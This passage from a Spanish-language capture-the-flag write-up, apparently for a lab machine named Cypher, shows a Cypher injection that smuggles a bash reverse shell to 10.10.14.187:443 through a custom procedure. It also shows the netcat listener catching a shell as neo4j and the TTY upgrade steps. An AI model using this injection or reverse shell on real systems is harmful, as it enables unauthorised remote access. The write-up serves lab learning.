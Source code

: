 Modificaremos el `payload` para ejecutar la siguiente reverse shell en `bash`, podemos enviarla directamente como parámetro en la función `getUrlStatusCode()`

~~~ cypher
' OR 1=1 CALL custom.getUrlStatusCode("x.com; bash -c 'bash -i >& /dev/tcp/10.10.14.187/443 0>&1'") YIELD statusCode RETURN statusCode //
~~~

> Antes de ejecutar la reverse shell asegúrate de haber iniciado un listener por el puerto por el cual estás enviando la reverse shell, por ejemplo: `nc -lvnp 443`
{: .notice--warning}

![image-center](/assets/images/posts/cypher-cypher-injection.png)
{: .align-center}

Desde nuestro listener recibiremos correctamente una consola como el usuario `neo4j`

~~~ bash
nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.14.187] from (UNKNOWN) [10.10.11.57] 57654
bash: cannot set terminal process group (1433): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$   
~~~


## TTY Treatment

Haremos un tratamiento de la TTY para obtener una consola más interactiva y que no se nos vaya al carajo la shell al hacer `Ctrl + C`

~~~ bash
neo4j@cypher:/$ script /dev/null -c bash  
script /dev/null -c bash
Script started, output log file is '/dev/null'.
neo4j@cypher:/$ ^Z
[1]  + 84765 suspended  nc -lvnp 443
root@parrot exploits # stty raw -echo; fg                            
[1]  + 84765 continued  nc -lvnp 443
                                    reset xterm
~~~
